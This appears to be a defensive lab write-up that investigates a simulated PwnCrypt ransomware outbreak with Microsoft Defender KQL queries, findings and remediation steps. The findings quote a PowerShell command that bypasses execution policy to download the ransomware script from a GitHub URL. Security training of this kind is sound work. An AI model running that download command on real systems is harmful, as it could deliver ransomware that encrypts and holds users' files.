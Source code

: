 # Zero-Day-Ransomware-PwnCrypt-Outbreak

<img width="1536" height="1024" alt="image" src="https://github.com/user-attachments/assets/84b28057-5767-4402-adaa-68f7214615ca" />

## 📖Scenario

A new ransomware strain called PwnCrypt has emerged, using a PowerShell-based payload to encrypt files with AES-256 encryption and adding a .pwncrypt extension to targeted files. The CISO is worried about its potential spread to the corporate network and intends to investigate further.

## 🕵️‍♂️Data Collection
Inspect DeviceFileEvents logs in MS Defender for .pwncrpyt string

```kql
let suspectDevice = "windows10vm";
DeviceFileEvents
| where DeviceName == suspectDevice
| where FileName contains "pwncrypt"
| order by Timestamp desc
| summarize by Timestamp, DeviceName, ActionType, FileName, FolderPath, InitiatingProcessFileName, InitiatingProcessCommandLine
```
<img width="1621" height="663" alt="スクリーンショット 2025-08-05 11 04 54" src="https://github.com/user-attachments/assets/367446b4-c874-470f-8551-f09ae8f0df43" />

🔍Findings
- Files appended with .pwncrypt indicate the ransomeware has spread to our systems
- Initiating process confirms PowerShell-based script at C:\programdata\pwnscript.ps1 using -ExecutionPolicy Bypass

Inspect DeviceNetworkEvents for any "Invoke-WebRequest" 

```kql
let suspectDevice = "windows10vm";
DeviceNetworkEvents
| where DeviceName == suspectDevice and InitiatingProcessCommandLine contains "Invoke-WebRequest"
| summarize by Timestamp, DeviceName, RemoteUrl, InitiatingProcessFileName, InitiatingProcessCommandLine
```

<img width="1651" height="521" alt="image" src="https://github.com/user-attachments/assets/06e49924-f2ec-4816-b298-04dc301d8a20" />

🔍Findings
- Confirmed command line run by "labuser" to callout to github and save file locally. "pwncrypt.ps1 to C:\programdata "powershell.exe  -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1"

Data Analysis

Hypothothis
- User "labuser," with admin permissions, ran command line code that downloaded PwnCrypt ransomware to the machine. Pwncrypt encoded files and demanded a bitcoin ransom.
Evidence
- Data finding of DeviceNetworkEvents and DeviceFileEvents above.

Investigation

- Analysis of the pwncrypt.ps1 file indicates code associated with ransom ware.

Remediation

Containment
- Block traffic to/from assoicated URL

Eradication
- Isolate endpoints with pwncrypt.ps1 file and eradicate
- Terminate additional processes (schedule tasks, etc.)
- Scan network for other signs of infection

Recovery
- Restore endpoints from last known good backup
- Verify integridy of restored systems




Remediate
- Block all traffic to malicious URI
- Remove pwncrypt.ps1 and kill related processes
- 

